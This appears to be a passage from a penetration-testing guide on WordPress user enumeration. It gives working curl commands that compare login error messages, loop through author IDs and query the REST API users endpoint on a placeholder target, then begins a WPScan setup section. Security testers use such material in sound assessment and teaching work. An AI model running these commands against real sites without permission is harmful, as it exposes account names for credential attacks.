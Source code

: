 
## User Enumeration Techniques

### Login Error Message Analysis

#### Username Enumeration via Login Form
```bash
# Test valid username with invalid password
curl -X POST http://target.com/wp-login.php \
  -d "log=admin&pwd=wrongpassword" \
  -v

# Response: "The password for username admin is incorrect."

# Test invalid username
curl -X POST http://target.com/wp-login.php \
  -d "log=nonexistent&pwd=password" \
  -v

# Response: "The username nonexistent is not registered on this site."
```

#### Author ID Enumeration
```bash
# Enumerate users via author parameter
for i in {1..10}; do
  curl -s "http://target.com/?author=$i" | grep -i "author"
done

# Look for redirects or author page content
```

#### REST API User Enumeration
```bash
# WordPress REST API user endpoint
curl -s http://target.com/wp-json/wp/v2/users | jq .

# Extract usernames from JSON response
curl -s http://target.com/wp-json/wp/v2/users | jq '.[].slug'
```

---

## Automated Enumeration with WPScan

### Installation & Setup
```bash
# Install WPScan
sudo gem install wpscan

# Get WPVulnDB API token (75 requests/day free)
# Register at https://wpvulndb.com/
```
